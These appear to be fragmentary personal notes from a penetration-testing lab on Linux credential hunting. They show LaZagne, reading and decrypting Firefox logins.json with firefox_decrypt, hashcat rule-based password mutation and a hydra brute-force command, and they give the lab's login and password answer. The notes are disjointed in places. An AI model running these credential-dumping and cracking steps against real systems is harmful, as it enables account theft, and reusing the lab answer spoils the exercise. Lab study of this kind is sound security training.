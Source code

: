 ```shell-session
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all
```
#### Browsers
`Mozilla Firefox` browser stores the credentials encrypted in a hidden folder for the respective user. These often include the associated field names, URLs, and other valuable information.

#### Firefox Stored Credentials
```shell-session
cry0l1t3@unixclient:~$ ls -l .mozilla/firefox/ | grep default 
```

```shell-session
cry0l1t3@unixclient:~$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

"encryptedPassword": "MEIEEPgAAAA...SNIP...FrESc4A3OOBBiyS2HR98xsmlrMCRcX2T9Pm14PMp3bpmE=",
```

#### Decrypting Firefox Credentials

```shell-session
AhmaDb0x@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2
```

```shell-session
cry0l1t3@unixclient:~$ python3 laZagne.py browsers
```

> LoveYou1

```undefined
whereis python3
```

hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list


1 . create a file with the password Loveyou1 using the custom.rule hashcat --force /home//password1k.txt -r custom.rule --stdout | sort -u > mut_password4.list

1. use hydra to crack the new password hydra -l kira -P /home/xxx/mut_password.list
    
2. read the bash_history carefully  
    thank you and good luck
login: kira   password: L0vey0u1!

git clone https://github.com/unode/firefox_decrypt.git
cd firefox_decrypt/
ls
./firefox_decrypt.py 
su
./firefox_decrypt.py 
python3.9 firefox_decrypt.py
